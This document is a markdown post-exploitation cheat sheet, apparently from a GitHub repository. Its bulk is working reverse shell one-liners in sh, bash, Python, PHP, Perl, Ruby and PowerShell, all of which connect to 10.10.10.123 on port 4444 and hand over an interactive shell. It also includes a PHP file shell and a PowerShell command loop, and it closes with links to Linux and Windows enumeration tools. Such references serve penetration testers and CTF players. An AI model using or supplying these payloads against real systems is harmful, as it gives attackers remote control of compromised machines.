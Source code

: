 # Post-exploitation
Tools and techniques I use for post-exploitation:
- [Reverse Shell](#reverse-shell)
  - [sh](#sh)
  - [bash](#bash)
  - [python](#python)
  - [php](#php)
  - [perl](#perl)
  - [ruby](#ruby)
  - [powershell](#powershell)
- [Linux](#linux)
  - [Enumeration](#enumeration-on-linux)
  - [Privilege Escalation](#)
- [Windows](#windows)
  - [Enumeration](#enumeration-on-windows)
  - [Privilege Escalation](#)

----

## Reverse Shell

### sh
Works on Linux and FreeBSD.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.123 4444 >/tmp/f
```

### bash
```bash
bash -i >& /dev/tcp/10.10.10.123/4444 0>&1
``` 

#### python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.123",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### php
```php
# One liner
php -r '$sock=fsockopen("10.10.10.123",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

# Reverse shell in file
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.123/4444 0>&1'");
```

#### perl
```perl
perl -e 'use Socket;$i="10.10.10.123";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.10.10.123",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### powershell
```powershell
# Create a powershell script with the name reverse.ps1
function reverse_powershell {
    $client = New-Object System.Net.Sockets.TCPClient("10.10.10.123",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
}

# Execute reverse shell
powershell -ExecutionPolicy bypass -command "Import-Module reverse.ps1; reverse_powershell"
```

----

## Linux

#### Enumeration on linux
Automated enumeration tools:
- [LinEnum] (https://github.com/rebootuser/LinEnum)
- [Linux smart enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

----

## Windows

#### Enumeration on windows
Automated enumeration tools:
- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
- [Seatbelt](https://github.com/GhostPack/Seatbelt)
- [SharpUp](https://github.com/GhostPack/SharpUp)
